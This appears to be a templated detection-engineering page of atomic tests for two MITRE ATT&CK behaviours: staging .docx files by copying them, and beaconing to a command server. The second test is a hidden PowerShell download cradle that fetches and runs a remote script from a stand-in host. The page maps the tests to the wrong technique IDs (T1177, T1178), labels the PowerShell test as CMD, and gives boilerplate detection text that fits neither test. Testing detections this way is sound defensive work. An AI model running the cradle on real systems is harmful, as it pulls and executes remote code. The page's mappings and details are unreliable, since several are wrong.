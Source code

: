 ### Description
Simulates staging files for exfiltration to evaluate detection capability for MITRE tactic **Collection**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
copy C:\Users\Public\Documents\*.docx D:\Staged\\
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of staging files for exfiltration on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1177**


## ✅ T1178 – Beaconing to external command servers

### Description
Simulates beaconing to external command servers to evaluate detection capability for MITRE tactic **Command and Control**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString(\'http://malicious.site/c2.ps1\')"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of beaconing to external command servers on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1178**
